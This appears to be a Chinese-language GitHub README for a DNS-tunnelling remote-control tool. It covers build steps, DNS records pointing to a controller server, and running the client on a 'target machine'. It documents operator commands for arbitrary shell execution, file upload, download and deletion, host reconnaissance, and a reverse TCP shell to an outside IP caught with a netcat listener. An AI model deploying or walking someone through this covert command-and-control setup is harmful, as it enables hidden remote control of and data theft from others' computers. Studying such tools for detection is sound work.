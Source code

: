 # dnstunnel
一款多会话的二进制DNS隧道远控，一个服务端可以连接多个客户端（暂未做充分测试，欢迎提issue）。DNS通道传输能力非常有限，速率比较低，传输大量的字节需要很长时间。  

交互设计:  
![avatar](https://raw.githubusercontent.com/bigBestWay/dnstunnel/master/flow.jpg)

协议更新前后效果对比： 
传输9K左右数据，使用停等协议需要3分47秒，使用选择性重传（滑动窗口）协议需要1分53秒。
# 编译
依赖zlib  
```
./build.sh
```
编译debug版本  
```
./build.sh debug
```
# 域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
# 使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
# 用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
reverse <ip> <port>
Session[29727]>>
```
## session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
## getuid  
```
getuid
```
获取当前远程会话的用户ID  
## upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
## download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
## bash
```
bash which python
```
可执行任意shell命令，返回执行结果，注意不要执行需要交互的命令  
## move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
## mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
## rmdir  
删除远端文件夹  
## rename  
重命令文件  
## list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
## rm  
删除远端文件  
## cd  
切换远端程序当前目录  
## pwd  
获取远端程序当前目录  
## hostip  
获取远端机器的出口ip和主机名
## reverse
反弹TCP shell，服务端使用nc -lvnp 56789接收
```
reverse 112.55.4.22 56789
```
# systemd-resolve占用53端口的解决方法
以ubuntu为例，编辑
```
/etc/systemd/resolved.conf
```
按下面修改
```
[Resolve]
DNS=8.8.8.8  #取消注释，增加dns
#FallbackDNS=
#Domains=
#LLMNR=no
#MulticastDNS=no
#DNSSEC=no
#Cache=yes
DNSStubListener=no  #取消注释，把yes改为no
```
重启服务
```
systemctl restart systemd-resolved
```
